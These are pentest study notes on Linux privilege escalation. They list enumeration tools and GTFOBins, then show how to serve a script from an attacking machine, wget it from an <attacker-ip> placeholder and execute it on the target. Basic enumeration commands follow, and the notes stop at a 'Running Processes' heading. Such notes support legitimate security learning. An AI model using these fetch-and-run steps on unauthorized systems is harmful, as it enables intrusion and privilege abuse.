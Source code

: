 ### General Notes

Going from a lower permission account to a higher permission one.
- Exploiting a vulnerability, design flaw, or configuration oversight in an OS or application to gain access to resources.

Gives you admin access and privileges to:
1. Reset passwords.
2. Bypass access controls.
3. Edit software configurations.
4. Enabling persistence. [[Backdoors]].
5. Changing the privilege of existing users.
6. Execute any admin command.

> [GTFOBins](https://gtfobins.github.io/) used to escalate privileges based on binaries available.

---
### Automated Enumeration Tools

* [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
* [LinEnum](https://github.com/rebootuser/LinEnum).
* [LES](https://github.com/mzet-/linux-exploit-suggester).
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration).
* [Linux Priv Checker](https://github.com/linted/linuxprivchecker).

- To send any of these scripts to a target machine, spawn a python server on the attacking machine where the script is:
```bash
python -m http.server 80
```

- Then `wget` the script.
```shell
wget http://<attacker-ip>:80/<scriptname.sh>
```

- Before running the script, give it first execute permissions then run it.
```shell
chmod +x <scriptname.sh>
./scriptname.sh
```

#### Enumeration

##### Hostname
- The hostname of a machine can give useful information about its role within the network.
```bash
hostname
```
##### Kernel Information
- The command gives us information regarding the kernel to be used to search for vulnerabilities.
```shell
uname -a
```
##### Proc filesystem (procfs)
- The proc filesystem (procfs) provides about the system's processes. Looking at `/proc/version` may give information on the kernel version and if compilers are installed.
```shell
cat /proc/version
```
##### Operating System Information
- Looking at the `/etc/issue` gives information about the operating system.
```shell
cat /etc/issue
```
##### Running Processes